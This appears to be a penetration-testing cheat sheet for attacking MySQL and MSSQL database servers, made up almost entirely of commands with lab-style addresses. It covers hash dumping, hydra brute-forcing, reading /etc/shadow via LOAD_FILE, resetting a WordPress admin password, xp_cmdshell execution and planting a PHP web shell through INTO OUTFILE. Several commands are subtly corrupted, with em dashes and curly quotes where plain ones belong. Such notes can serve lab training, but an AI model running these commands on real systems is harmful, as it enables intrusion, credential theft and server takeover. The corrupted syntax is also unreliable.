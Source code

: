 ### Nmap Scripts
```shell-session
$ sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```

```
nmap 0.0.0.0 -SV -p 3306 —script=mysql-empty-password

nmap 0.0.0.0 -SV -p 3306 —script=mysql-info

nmap 0.0.0.0 -SV -p 3306 —script=mysql-users —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-databases—script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-variables —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-audit—script-args=”mysql-audit.username=’root’, mysql-audit.password=’’”,mysql-audit.filename=’/usr/share/nmap/nselib/data/mysql-cis.audit’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-dump-hashes —script-args=”username=’root’, password=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-query —script-args=”query=’select count(*) from books.authors;’,username=’root’, password=’’”
```
### BRUTEFORCE

```shell-session
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 0.0.0.0 mysql
```
## sqsh
```shell-session
$ sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```
```shell-session
$ sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```


```shell-session
$ mssqlclient.py -p 1433 julio@10.129.203.7 
```
### Trying login

```shell-sesion
$ mysql -h 0.0.0.0 -u root
```
```shell-session
$ mysql -u root -pP4SSw0rd -h 10.129.14.128
```
### Useful SQL Commands

```shell-session
$ mysql -u <user> -p<password> -h <IP address>

$ show databases;

$ use books;

$ show tables;

$ select * from <table>;

$ show columns from <table>;

$ select * from <table> where <column> = "<string>";

$ select load_file(”/etc/shadow”)

$ UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

http://<TARGET-IP>/8585/wordpress/wp-admin
```
#### XP_CMDSHELL
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```
## Write Local Files
```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
#### MySQL - Secure File Privileges
```shell-session
mysql> show variables like "secure_file_priv";
```
## Read Local Files
```shell-session
mysql> select LOAD_FILE("/etc/passwd");
```
### Metasploit Modules

``` shell-session
> MYSQL:

- use /auxiliary/scanner/mysql/mysql_login
> set pass_file /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt
> set stop_on_succes true

- auxiliary/admin/mysql/mysql_enum

- auxiliary/admin/mysql/mysql_sql

- auxiliary/scanner/mysql/mysql_file_enum

- auxiliary/scanner/mysql/mysql_hashdump

- auxiliary/scanner/mysql/mysql_login

- auxiliary/scanner/mysql/mysql_schemadump

- auxiliary/scanner/mysql/mysql_version

- auxiliary/scanner/mysql/mysql_writable_dirs
```